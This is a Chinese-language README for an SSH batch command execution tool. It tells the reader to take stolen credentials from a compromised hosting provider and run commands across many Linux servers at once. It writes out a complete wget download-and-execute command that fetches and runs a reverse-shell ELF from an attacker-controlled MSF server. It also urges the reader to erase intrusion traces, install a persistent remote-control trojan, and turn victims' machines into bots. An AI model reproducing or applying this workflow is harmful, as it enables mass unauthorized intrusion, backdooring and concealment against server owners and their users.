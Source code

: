 # 狼目安全 ssh 工具类

1：狼目安全ssh批量命令执行1.0工具

(IDC 服务器，指的是运行于 IDC 机房、可用于不同行业客户租用的数据中心服务器。用户完成租用后，即可远程使用本地电脑进行相关操作。常规情况下，IDC 服务器与标准服务器相比，在配置上进行了大幅升级扩充。例如，提升硬盘数据存量、保障低碳节能的绿色指标、以及进行机房温控，都是它的性能优势。通常而言，衡量 IDC 服务器的标准，主要表现在 IDC 服务商资质、IDC 服务器所在区域以及品牌配置等方面。)

在攻击成功拿下idc网站后，可以使用本工具，将获取到开通ssh端口的linux服务器ip；端口；用户名；密码这些信息存到.txt文本中 然后使用些整理工具或者叫ai帮忙整理成hostname:port:username:password和hostname port username password这两种格式(两种格式，选择其中一种即可)
具体：
hostname：ip地址
port：端口
username：用户名
password：密码
然后保存使用此文本，然后就可以批量执行命令了
我自己这边是使用的炫彩蛇msf 
首先设置好监听
然后在炫彩蛇msf上生成个.elf反弹shell文件,另存为保存在自己电脑上，然后上传在炫彩蛇msf的文件列表，上传成功后，使用它的一句话下载功能，生成个linux 下载并执行命令，比如这样：wget -O 反弹shell.elf --no-check-certificate https://炫彩蛇msf公网ip地址:炫彩蛇登录的端口/api/v1/d/?en=q93zQFtVZBz6%2BjdUVQb7AA%3D%3D && chmod 755 反弹shell.elf && ./反弹shell.elf 这样的命令，然后使用本工具批量命令执行，要注意的是它只会下载并执行在root目录下，我们可以在命令前面加个 cd /根目录 && 比如我要在etc目录中下载并执行 可以使用这个命令：cd /etc && wget -O 反弹shell.elf --no-check-certificate https://炫彩蛇msf公网ip地址:炫彩蛇登录的端口/api/v1/d/?en=q93zQFtVZBz6%2BjdUVQb7AA%3D%3D && chmod 755 反弹shell.elf && ./反弹shell.elf 
这样就可以在其他根目录中下载并执行了
上线炫彩蛇msf后我们就可以更好的进行渗透了
记住还要清除自己的入侵痕迹，不然一些细心的人就很有可能发现了
清理的方法有很多，这边就不写了，可以自行搜索一下。
提醒一下，炫彩蛇msf这个反弹shell并不是持久控制的到一定时间它会自己掉线，.elf反弹shell文件也不会自己删除，所以在上线炫彩蛇msf后，我们就必须做好权限维持，再找个正经一点的linux远控，生成个远控木马，再用炫彩蛇msf上传再控制终端并执行上传文件，这样就又上线到Linux远控上持久控制了，让对方的主机变成我们的肉鸡了
好了，后面的就可以自己慢慢摸索了。

如果工具有bug的话可以留言和私信我，这个工具以后还会持续更新的
